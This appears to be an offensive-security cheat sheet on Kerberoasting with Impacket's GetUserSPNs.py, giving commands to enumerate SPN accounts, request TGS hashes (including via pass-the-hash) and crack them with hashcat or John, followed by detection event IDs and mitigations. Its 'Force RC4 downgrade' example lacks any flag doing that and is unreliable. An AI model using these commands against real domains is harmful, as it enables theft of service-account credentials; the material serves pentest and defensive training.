



## TL;DR

`GetUserSPNs.py` is an Impacket script that performs **Kerberoasting** — requesting Kerberos service tickets (TGS) for accounts with registered SPNs, then cracking the resulting hashes offline to recover service account passwords.

Unlike AS-REP Roasting (`GetNPUsers.py`), Kerberoasting **always requires valid domain credentials** to request service tickets. However, it targets a much wider attack surface since any domain account can have an SPN, and many service accounts use weak, non-rotating passwords.

---

## What GetUserSPNs.py Does

| Capability | Details |
|---|---|
| Enumerate SPN accounts | LDAP query for all user accounts with `servicePrincipalName` set |
| Request TGS for each SPN | Uses the authenticated user's TGT to request service tickets from the KDC |
| Output crackable hashes | Returns `$krb5tgs$` hashes in hashcat / John the Ripper format |
| Save output to file | `-outputfile <file>` for direct use with hashcat |
| Target a specific user | `-request-user <username>` to roast a single account |
| Support multiple auth methods | Password, NTLM hash (pass-the-hash), Kerberos ticket |
| Show SPN info without requesting | Omit `-request` to list SPNs only |

---

## What GetUserSPNs.py Cannot Do

| Limitation | Why |
|---|---|
| Work without valid domain credentials | Requires authentication to both LDAP and KDC — no anonymous mode |
| Crack the hash | Offline cracking must be done separately (hashcat / john) |
| Target accounts without SPNs | No SPN = no service ticket = no hash |
| Target computer accounts effectively | Machine account passwords are 120-char random and rotate automatically |
| Bypass AES-only enforcement | If RC4 is disabled, only `etype 18` (AES256) hashes are returned — much slower to crack |
| Guarantee a crackable result | Long, complex, or randomly generated passwords are computationally infeasible to crack |
| Escalate privileges on its own | A cracked password still requires lateral movement or further exploitation |

---

## Normal TGS Request vs Kerberoasting

### Normal Kerberos service ticket flow



### Kerberoasting — extract and crack the TGS



> The KDC never checks whether the requester should actually have access to the service. Any authenticated domain user can request a TGS for any SPN — this is by design in Kerberos.

---

## Full Attack Flow



---

## When to Use It

### Enumerate SPNs only (no hash request)

```bash
# List all SPN accounts — no tickets requested
GetUserSPNs.py <DOMAIN>/<USER>:<PASSWORD> -dc-ip <DC_IP>

# Example
GetUserSPNs.py corp.local/jsmith:Password1 -dc-ip 10.10.10.100
```

### Request all TGS hashes

```bash
# Request hashes for all SPN accounts
GetUserSPNs.py corp.local/jsmith:Password1 -dc-ip 10.10.10.100 -request -outputfile hashes.txt
```

### Target a specific account

```bash
# Roast a single known service account
GetUserSPNs.py corp.local/jsmith:Password1 -dc-ip 10.10.10.100 -request-user svc_mssql
```

### Pass-the-Hash authentication

```bash
# Use an NTLM hash instead of a plaintext password
GetUserSPNs.py corp.local/jsmith -hashes :<NTLM_HASH> -dc-ip 10.10.10.100 -request -outputfile hashes.txt
```

### Force RC4 downgrade (etype 23)

```bash
# Request RC4 tickets even if AES is available (easier to crack)
# Note: may fail if RC4 is explicitly disabled on the DC
GetUserSPNs.py corp.local/jsmith:Password1 -dc-ip 10.10.10.100 -request -outputfile hashes.txt
```

---

## Cracking the Hash

```bash
# RC4 (etype 23) — hashcat mode 13100
hashcat -m 13100 hashes.txt /usr/share/wordlists/rockyou.txt

# With rules
hashcat -m 13100 hashes.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule

# AES256 (etype 18) — hashcat mode 19700 (significantly slower)
hashcat -m 19700 hashes.txt /usr/share/wordlists/rockyou.txt

# John the Ripper
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

**Hash format reference:**

```
$krb5tgs$23$*svc_mssql$CORP.LOCAL$...*<hash>
          ^^ etype 23 = RC4-HMAC (common, faster to crack)

$krb5tgs$18$*svc_mssql$CORP.LOCAL$...*<hash>
          ^^ etype 18 = AES256 (harder to crack)
```

---

## Common Options

| Flag | Description |
|---|---|
| `-request` | Request TGS tickets and output hashes |
| `-request-user <user>` | Target a single specific user |
| `-outputfile <file>` | Save hashes to file |
| `-dc-ip <ip>` | Domain controller IP |
| `-hashes <LM:NT>` | Use NTLM hash for authentication |
| `-no-preauth <user>` | Use a user with no preauth (AS-REP + TGS combined) |

---

## Identifying Kerberoastable Accounts

### PowerShell (on a domain-joined machine)

```powershell
# Find all user accounts with SPNs set (excluding computer accounts)
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName |
    Select-Object Name, SamAccountName, ServicePrincipalName
```

### LDAP filter (used internally by GetUserSPNs.py)

```
(&(objectClass=user)(servicePrincipalName=*)(!(objectClass=computer))(!(userAccountControl:1.2.840.113556.1.4.803:=2)))
```

---

## GetUserSPNs.py vs GetNPUsers.py

| | GetUserSPNs.py (Kerberoasting) | GetNPUsers.py (AS-REP Roasting) |
|---|---|---|
| **Requires domain credentials** | Yes — always | No — works with user list only |
| **Target accounts** | Accounts with SPNs | Accounts with pre-auth disabled |
| **Hash type** | `$krb5tgs$` | `$krb5asrep$` |
| **Hashcat mode** | 13100 (RC4) / 19700 (AES) | 18200 |
| **Attack surface** | Wider — many services have SPNs | Narrower — misconfiguration required |
| **Credential requirement** | Any valid domain user | None (if user list available) |

---

## Detection & Defense

### Blue Team Indicators

| Event ID | Source | What to look for |
|---|---|---|
| 4769 | Security | TGS-REQ with encryption type 0x17 (RC4) for user accounts — unusual in modern environments |
| 4769 | Security | Burst of TGS requests from a single account in a short window |

A single user requesting TGS tickets for many different SPNs in quick succession is a strong signal.

### Mitigations

```powershell
# Audit accounts with SPNs set
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName, PasswordLastSet |
    Select-Object Name, SamAccountName, PasswordLastSet, ServicePrincipalName

# Ensure service account passwords are long and random (25+ characters)
# Use Group Managed Service Accounts (gMSA) — passwords rotate automatically
New-ADServiceAccount -Name gMSA_MSSQL -DNSHostName db.corp.local -PrincipalsAllowedToRetrieveManagedPassword "Domain Computers"
```

- Use **Group Managed Service Accounts (gMSA)** — 120-character randomly rotating passwords make cracking infeasible
- **Disable RC4** (enforce AES-only) to force harder-to-crack etype 18 hashes
- Set up **Microsoft Defender for Identity (MDI)** alerts for Kerberoasting patterns
- Periodically audit and remove unnecessary SPNs

---

## References

- [Impacket — GetUserSPNs.py source](https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py)
- [harmj0y — Kerberoasting Without Mimikatz](https://www.harmj0y.net/blog/powershell/kerberoasting-without-mimikatz/)
- [Microsoft — Service Principal Names](https://learn.microsoft.com/en-us/windows/win32/ad/service-principal-names)
